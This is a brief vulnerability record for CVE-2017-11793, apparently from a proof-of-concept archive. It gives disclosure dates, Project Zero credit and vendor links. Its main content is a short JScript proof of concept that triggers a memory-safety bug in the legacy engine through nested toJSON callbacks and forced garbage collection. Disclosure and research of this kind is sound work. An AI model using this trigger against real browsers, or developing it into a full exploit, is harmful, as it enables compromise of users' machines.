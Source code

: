 # CVE-2017-11793

- Report: Oct 2017
- Fix: Dec 2017
- Credit: ifratric of Google Project Zero

## PoC

```html
<script language="Jscript.Encode">

var o1 = {toJSON:function(){
  alert('o1');
  return [o2];
}}

var o2 = {toJSON:function(){
  alert('o2');
  CollectGarbage();
  return 'x';
}}

JSON.stringify(o1);

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11793)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1381)
